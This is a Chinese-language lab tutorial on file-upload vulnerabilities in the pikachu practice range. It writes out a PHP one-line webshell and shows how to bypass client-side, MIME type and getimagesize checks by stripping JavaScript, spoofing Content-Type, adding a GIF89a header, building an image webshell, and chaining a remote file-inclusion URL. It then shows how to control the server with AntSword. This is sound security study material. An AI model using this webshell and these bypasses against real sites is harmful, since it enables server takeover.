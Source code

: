 ```yaml
---
title: 信息安全学习-文件上传
tags:
  - 信息安全
readmore: true
abbrlink: 9890b883
date: 2023-02-20 11:30:26
---
```


### 简介

文件上传本身是指一个功能，比如用户可以上传头像、上传资料等。如果能够上传文件，则可能存在文件上传的漏洞。

任意文件上传漏洞的产生需要满足三个条件：

1. 文件能被上传；
2. 文件能被服务器解析 (上传的文件能够被当作后端脚本处理)；
3. 能访问的到上传的文件，如果访问不到，则无法对文件进行控制，也就没有漏洞的说法。

<!--more-->

### 环境搭建

环境使用 pikachu 的靶场，下载地址：https://github.com/zhuifengshaonianhanlu/pikachu

安装方式可自行百度，推荐使用 phpstudy 创建网站，方便快捷。

### client check

访问搭建好的 pikachu 靶场中的 Unsafe Fileupload -> client check；

#### 测试漏洞

首先我们上传一张普通的图片，可以看到提示 “文件上传成功”，并显示了文件保存的路径，这里将返回的路径与 pikachu 靶场的路径进行拼接，可以成功的访问到图片。

```bash
http://192.168.31.195/pikachu/vul/unsafeupload/uploads/avatar.jpg
```

#### 绕过漏洞

创建一个 "shell.php" 的文件，作为我们一会将要上传的一句话木马文件。

```php
<?=eval($_POST['cmd']);?>
```

此时在靶场中直接选中该文件，会弹出提示框说文件不符合要求；通过 burp suite 也能发现网站没有发送请求，所以得出结论是在前端(客户端)进行的验证。

F12 或者在网站空白处右键检查；发现表单处调用了 JavaScript 函数，这里直接给它删除掉再次上传即可上传成功。

![](https://pic.mewhz.com/fileUpload/1.png)

#### 利用漏洞

成功上传一句话木马后，使用蚁剑进行连接。

蚁剑源码下载地址：https://github.com/AntSwordProject/antSword

蚁剑启动器下载地址：https://github.com/AntSwordProject/AntSword-Loader

将蚁剑源码解压后，打开启动器目录选择刚刚的源码文件，稍等片刻会成功启动。

也可以直接使用启动器下载；若遇到解压失败的情况，给予源码的文件夹所有权限即可。 

启动后，在蚁剑空白处右键，选择添加数据；

![](https://pic.mewhz.com/rce/1.png)

在基础配置中的 url 地址，输入靶场中木马所在的 url；

连接密码输入 cmd，即刚刚木马中 $_POST 的参数；

![](https://pic.mewhz.com/fileUpload/2.png)

单击测试连接，显示连接成功后，单击添加；

右键刚刚添加的记录，选择文件管理就可以对木马所在的服务器进行文件操作；

![](https://pic.mewhz.com/fileUpload/3.png)

![](https://pic.mewhz.com/fileUpload/4.png)

---

### MIME type

访问搭建好的 pikachu 靶场中的 Unsafe Fileupload -> MIME type；

#### 测试漏洞

同样上传一张图片，发现没有任何问题并且返回了上传的路径。

#### 绕过漏洞

上传一句话木马文件，发现要求了上传的文件格式，此时打开 burp suite 抓取请求，

将抓到的请求右键 ”Send to Repeater“，发送到请求模块，修改请求头中的内容类型；

![](https://pic.mewhz.com/fileUpload/5.png)

把 **Content-Type: application/octet-stream** 修改成 **Content-Type: image/jpg**

通过此方法欺骗服务端，让服务端认为用户上传的是一张图片。

**MIME type** ：(现在称为“媒体类型 (media type)”，但有时也是“内容类型 (content type)”)是指示文件类型的字符串，与文件一起发送(例如，一个声音文件可能被标记为 `audio/ogg` ，一个图像文件可能是 `image/png` )。它与传统 Windows 上的文件扩展名有相同目的。

#### 利用漏洞

上传成功后，使用上述蚁剑的连接的方法访问后台。

---

### getimagesize

访问搭建好的 pikachu 靶场中的 Unsafe Fileupload -> getimagesize；

#### 测试漏洞

同样上传一张图片，发现没有任何问题并且返回了上传的路径。

#### 绕过漏洞

上传一句话木马，发现同样要求了文件后缀名格式；

##### 修改请求头

1. 同样使用 burp suite 抓包，这次除了修改请求头中的内容类型，还要修改文件的后缀名以及文件的内容；

2. 修改内容类型：把 **Content-Type: application/octet-stream** 修改成 **Content-Type: image/jpg**；

3. 修改文件后缀名，同样可以直接在上传之前进行修改：

   ![](https://pic.mewhz.com/fileUpload/6.png)

4. 在文件内容的首部加上 "GIF89a"，代表该文件是 GIF89a 格式的文件：

   ![](https://pic.mewhz.com/fileUpload/7.png)

5. 上传后成功显示文件的上传路径；

##### 制作图片木马

1. 选择一张可以正常显示的图片，并在该位置打开命令行；

2. 输入如下命令

   ```bash
   copy avatar.jpg/b+shell.php/a 1.jpg
   # copy 将一个或多个文件复制到其他位置
   # 第一个参数指定要复制的文件
   # /b 表示二进制文件
   # + 代表合并文件
   # /a 表示 ASCII 文件
   # 第二个参数指定新文件的文件名和路径
   ```

3. 重新上传文件，并选择新生成的文件，此时返回的连接仅仅是一个图片链接，需要配合着文件包含漏洞共同使用；

4. 打开 pikachu 靶场中的 File Inclusion -> File Inclusion(remote)，选择一张图片并观察URL，文件包含使用 filename 作为参数名，此时 php 页面会将相应到的数据作为 php 脚本执行，修改后面的参数名，构成新的 URL 为：

   ```bash
   http://192.168.31.195/pikachu/vul/fileinclude/fi_remote.php?filename=http://192.168.31.195/pikachu/vul/unsafeupload/uploads/2023/02/20/19834863f3222ca9c95014848861.jpg&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
   ```

#### 利用漏洞

最后依然是使用蚁剑进行连接，只不过 URL 是文件包含中构成的新 URL。



仅供学习交流使用~
